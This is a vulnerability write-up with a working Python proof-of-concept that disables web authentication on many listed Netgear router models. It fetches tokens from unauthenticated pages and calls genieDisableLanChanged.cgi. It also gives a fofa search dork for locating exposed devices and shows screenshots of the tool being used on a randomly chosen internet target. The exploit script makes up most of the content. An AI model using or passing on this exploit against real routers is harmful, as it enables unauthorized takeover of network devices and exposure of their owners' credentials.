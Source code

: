 ## 0x00 Summary

There is a large number of netgear devices with a genieDisableLanChanged.cgi page that can be accessed without authorization. After accessing this page, the device's authentication function will be turned off.
Some devices need to set the correct token and send a POST type request to trigger the vulnerability. 

like 

```
POST http://target/genieDisableLanChanged.cgi?id=Token
```


Token values can be fetched from certain pages that do not require authorization. But different models are different, so it is difficult to find a general solution. In this PoC, I try to grab a Token from three pages, which is suitable for most situations.

## 0x01 Tested Versions

AC1450, D8500, DC112A, JNDR3000, LG2200D, R4500, R6200, R6200V2, R6250, R6300, R6300v2, R6400, R6700, R6900P, R6900, R7000P, R7000, R7100LG, R7300, R7900, R8000, R8300, R8500, WGR614v10, WN2500RPv2, WNDR3400v2, WNDR3700v3, WNDR4000, WNDR4500, WNDR4500v2, WNR1000, WNR1000v3, WNR3500L, WNR3500L

## 0x02 PoC instructions

If you use PoC's closeauth function to turn off the device's web authentication, you must call PoC's openauth function to restore device authentication within a few minutes, otherwise the device's web service may crash.

If the PoC is invalid for a certain target, the possible reasons are:
（1）The target does not exist in the genieDisableLanChanged.cgi page, returning 404 (no vulnerability exists)
（2）The target's genieDisableLanChanged.cgi page requires authorization and returns 401 (no vulnerability exists)
（3）The page prompts that the timestamp expires and returns 200. (There is a vulnerability, the correct token is not fetched, and secondary development is required.)

## 0x03 PoC

```Python
#!/usr/bin/env python

import sys
import time
import os
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


def scrape(text, start_trig, end_trig):
    if text.find(start_trig) != -1:
    	return text.split(start_trig, 1)[-1].split(end_trig, 1)[0]
    else:
        return "Token maybe unnecessary"


def get_token(url):
	token=0
	while token==0:
		req = requests.get(url, verify=False)
		token = scrape(req.text, 'unauth.cgi?id=', '\"')
		if token=="Token maybe unnecessary":
			#print url+'genie_ping.htm'
			req = requests.get(url+'genie_ping.htm', verify=False)
			token = scrape(req.text, 'genieping.cgi?id=', '\"')
			if token=="Token maybe unnecessary":
			#print url+'genie_ping.htm'
				req = requests.get(url+'LGO_logout.htm', verify=False)
				token = scrape(req.text, 'logout.cgi?id=', '\"')

	return token

def get_url(ip,port):
	url = 'http://' + ip + ':' + port + '/'
	try:
		req = requests.get(url)
	except:
		url = 'https://' + ip + ':' + port + '/'
	return url


def close_auth(token,url):

	if token == "Token maybe unnecessary":
		vurl = url + 'genieDisableLanChanged.cgi'
	else:
		vurl = url + 'genieDisableLanChanged.cgi?id=' + token

	req = requests.post(vurl, verify=False)
	time.sleep(1)
	req = requests.post(vurl, verify=False)

	print 'Authentication is disabled'
	print 'Try: '+url+'BAS_basic.htm'
	print 'Try: '+url+'MNU_accessPassword_recovered.htm'

def open_auth(token,url):

	if token == "Token maybe unnecessary":
		vurl = url + 'geniemanual.cgi'
	else:
		vurl = url + 'geniemanual.cgi?id=' + token

	req = requests.post(vurl, verify=False)
	time.sleep(1)
	req = requests.post(vurl, verify=False)

	print 'Authentication is enabled'
	print 'Try: '+url+'BAS_basic.htm'
	print 'Try: '+url+'MNU_accessPassword_recovered.htm'


if __name__ == '__main__':
	if len(sys.argv) != 4:
		print 'usage:'
		print '1.python router.py ip port openauth'
		print '2.python router.py ip port closeauth'
		os._exit(0)

	ip=sys.argv[1]
	port=sys.argv[2]
	func=sys.argv[3]

	

	if func=='openauth':
		url=get_url(ip, port)
		token=get_token(url)
		open_auth(token,url)
	elif func=='closeauth':
		url=get_url(ip, port)
		token=get_token(url)
		close_auth(token,url)
	else:
		print 'usage:'
		print '1.python router.py ip port openauth'
		print '2.python router.py ip port closeauth'
		os._exit(0)
```

## 0x04 Vulnerability test example

Use the fofa search engine to retrieve the target, such as using the following dork syntax to get the target of the specified version.
```
dork: app="NETGEAR-WNDR3400v2"
```
![7ef9ce61dd1875f9961000dd3889fe0c](img/FC66A914-B18A-473F-B5B3-F798B015D3AA.png)
Next randomly select the target to use poc to test it. First, the access to the target directly needs to be authenticated. If the authentication is not authenticated, the corresponding page cannot be accessed.

![aca54fddbac415e49f12d4f24721e096](img/屏幕快照 2019-07-15 下午2.27.37.png)
![f851678f7fd85d7a5a2454d38b6bebe5](img/2896ACAC-346B-4466-A703-E22AEC18B046.png)



Next use PoC to turn off authentication and access key pages.

![2031c33b0f3e6937620a0151d9af1392](img/50A84184-249E-44D9-85D1-6E33539CCEBD.png)

![77179e57d9f8e5a333c50efd04453d1b](img/24791329-A503-44BF-9F39-6C57E4FC16F6.png)

![7d2e74f998fadcf41c3e42c749b83cec](img/C4B57C60-41F7-4FC0-B6A3-1707A301C89D.png)

Then use PoC to open the corresponding authorization and try to access the corresponding page again, and find that authorization is required to access.

![d1e26ba59ff297439edea6d328d9be72](img/F5DFD014-9A93-4404-A60C-3AD4F3BB9833.png)

![0108d5e52391baae09eb694cbf193752](img/74A49081-BC7D-4DD4-81A4-2F745F383D6E.png)


